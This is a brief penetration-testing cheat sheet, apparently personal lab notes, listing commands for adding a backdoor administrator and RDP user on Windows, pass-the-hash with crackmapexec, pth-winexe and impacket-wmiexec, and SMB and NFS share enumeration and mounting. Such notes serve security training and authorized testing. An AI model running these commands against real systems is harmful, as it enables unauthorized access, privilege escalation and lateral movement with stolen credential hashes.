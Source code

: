 #### account management

*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```

-----


#### pass the hash

```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe```

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```

-----


#### enum4linux

*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```

-----


#### smbclient

*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```

-----


#### smbmount

```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```

-----
  
  
#### nfs
  
*nfs mount after rpc enum*
  
```showmount -e 10.10.79.161```
  
```mount -t nfs 10.10.79.161:/home ~/tmp/mount -nolock```




